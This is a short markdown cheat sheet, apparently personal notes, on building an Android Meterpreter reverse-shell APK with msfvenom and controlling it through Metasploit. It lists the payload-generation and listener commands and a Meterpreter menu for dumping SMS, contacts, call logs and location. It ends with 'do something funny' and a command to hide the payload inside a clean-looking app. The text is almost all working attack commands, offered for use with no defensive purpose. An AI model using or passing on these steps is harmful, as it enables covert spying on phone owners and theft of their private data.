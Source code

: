 
---
tags: msf, android
---


## Require
- Make sure the android device can visit the host where msf is running

## Steps
1. write an `apk` by msf:
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 R>nixni.apk`
1. install `nixni.apk` on android device
1. exploit
	``` sh
	msf > use exploit/multi/handler
	msf > set payload android/meterpreter/reverse_tcp
	msf > set LHOST 192.168.0.107
	msf > set LPORT 4444
	msf > exploit
	```

1. Meterpreter 
	``` sh
	meterpreter > ?
	
	Android Commands
	================

			Command           Description
			-------           -----------
			activity_start    Start an Android activity from a Uri string
			check_root        Check if device is rooted
			dump_calllog      Get call log
			dump_contacts     Get contacts list
			dump_sms          Get sms messages
			geolocate         Get current lat-long using geolocation
			hide_app_icon     Hide the app icon from the launcher
			interval_collect  Manage interval collection capabilities
			send_sms          Sends SMS from target session
			set_audio_mode    Set Ringer Mode
			sqlite_query      Query a SQLite database from storage
			wakelock          Enable/Disable Wakelock
			wlan_geolocate    Get current lat-long using WLAN information
			
	```
	
1. do something funny ;>


## Notice
- The attack is weak cause modern phone has advance mechanisms to prevent attack happen. There is two obstacle that author meets, install alert with virus warning and permissoin ask before running commands. 
- The apk is more powerful if inject it to another clean-like apk, commands: `
msfvenom -x nixni.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -o clean-like.apk
 `, more information please ref the msf doc.
